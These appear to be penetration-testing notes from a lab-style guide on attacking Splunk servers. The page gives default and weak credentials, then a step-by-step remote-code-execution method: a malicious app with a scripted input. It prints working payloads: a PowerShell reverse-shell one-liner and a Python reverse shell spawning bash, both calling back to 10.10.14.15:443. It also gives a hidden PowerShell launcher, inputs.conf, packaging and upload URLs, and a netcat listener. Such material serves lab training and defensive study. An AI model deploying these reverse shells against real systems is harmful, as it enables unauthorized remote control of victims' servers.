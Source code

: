 # Splunk Attacks

* \
  Splunk web server runs by default on port 8000
  * works on https
* On older versions of Splunk, the default credentials are `admin:changeme`
  * If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Enumeration

* The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication - It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. - This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment - Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.&#x20;

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Splunk has multiple ways of running code, such as
  * server-side Django applications
  * REST endpoints
  * scripted inputs
  * alerting scripts
* A common method of gaining remote code execution on a Splunk server is through the use of a scripted input

### Attacking Splunk

* We can use [this](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us.
  * The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1)
* The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file
* &#x20;Our reverse shell will be a PowerShell one-liner.

```powershell-session
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions.
  * Here we set the app as enabled and tell Splunk to run the script every 10 seconds.
  * The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 
```

```shell-session
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

* We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

* Once the files are created, we can create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

* The next step is to choose `Install app from file` and upload the application.

```
https://10.129.201.50:8000/en-US/manager/search/apps/local
```

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
 sudo nc -lnvp 443
```

* On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

```
https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal
```

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

* As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.
* If we were dealing with a **Linux host**, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

